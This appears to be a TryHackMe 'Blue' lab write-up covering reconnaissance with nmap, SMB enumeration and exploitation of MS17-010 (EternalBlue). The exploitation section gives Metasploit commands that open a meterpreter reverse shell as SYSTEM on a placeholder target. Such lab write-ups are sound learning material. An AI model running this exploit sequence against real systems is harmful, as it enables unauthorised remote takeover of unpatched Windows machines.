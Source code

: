 
# TryHackMe: Blue (Windows)

## Info
- Difficulty: Easy
- IP Address: [Target IP]
- Date Completed: [23/04/2025]

---

## 1. Reconnaissance

**Command Used:**
```bash
nmap -sC -sV -oN blue_scan.txt [Target IP]
```

**Findings:**
- Port 445 open (SMB)
- Vulnerable to EternalBlue (MS17-010)

---

## 2. Enumeration

**Tool Used:**
```bash
smbclient -L //[Target IP]
```
- Found anonymous share access
- Used `nmap` script to confirm MS17-010 vulnerability

---

## 3. Exploitation

**Method:**
- Used Metasploit Framework
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [Target IP]
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

**Success:**
- Got reverse shell with meterpreter
- Confirmed user access

---

## 4. Privilege Escalation

**Commands:**
```bash
getuid
sysinfo
```

- Already running as SYSTEM (exploit gave NT AUTHORITY\SYSTEM)

---

## 5. Flags

- `user.txt`: [flag]
- `root.txt`: [flag]

---

## 6. What I Learned

- How SMB vulnerabilities like EternalBlue are exploited
- Basics of using Metasploit and meterpreter
- Importance of keeping Windows systems updated

